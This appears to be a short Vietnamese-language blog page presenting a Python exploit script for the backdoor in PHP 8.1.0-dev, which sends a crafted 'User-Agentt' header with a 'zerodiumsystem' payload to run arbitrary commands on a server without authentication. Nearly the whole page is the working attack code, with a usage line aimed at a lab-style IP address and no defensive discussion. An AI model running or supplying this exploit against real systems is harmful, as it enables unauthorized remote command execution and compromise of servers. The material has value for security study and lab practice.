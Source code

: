 ```yaml
---
title: PHP 8.1.0-dev Backdoor Remote Command Injection Exploit 
date: 25/5/2021
layout: single

--- 
```

---
##  PHP 8.1.0-dev (backdoor) | Chèn lệnh từ xa (Chưa được xác thực)
##  Tác giả khai thác: Richard Jones
[![Language](https://img.shields.io/badge/Lang-Python-blue.svg)](https://www.python.org)


--- 

## Mã Kiểm Tra 


```python
#Usage: python3 php_8.1.0-dev.py -u http://10.10.10.242/ -c ls
 
#!/usr/bin/env python3
import requests
import argparse
 
from requests.models import parse_header_links 
 
s = requests.Session()
 
def checkTarget(args):
    r = s.get(args.url)    
    for h in r.headers.items():
        if "PHP/8.1.0-dev" in h[1]:
            return True
    return False
 
 
def execCmd(args):
    r = s.get(args.url, headers={"User-Agentt":"zerodiumsystem(\""+args.cmd+"\");"})
    res = r.text.split("<!DOCTYPE html>")[0]
    if not res:
        print("[-] No Results")
    else:
        print("[+] Results:")
    print(res.strip())
 
 
def main():
 
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", "--url", help="Target URL (Eg: http://10.10.10.10/)", required=True)
    parser.add_argument("-c", "--cmd", help="Command to execute (Eg: ls,id,whoami)", default="id")
    args = parser.parse_args()
 
    if checkTarget(args):
        execCmd(args)
    else:
        print("[!] Not Vulnerable or url error")
        exit(0)
     
if __name__ == "__main__":
    main()
```



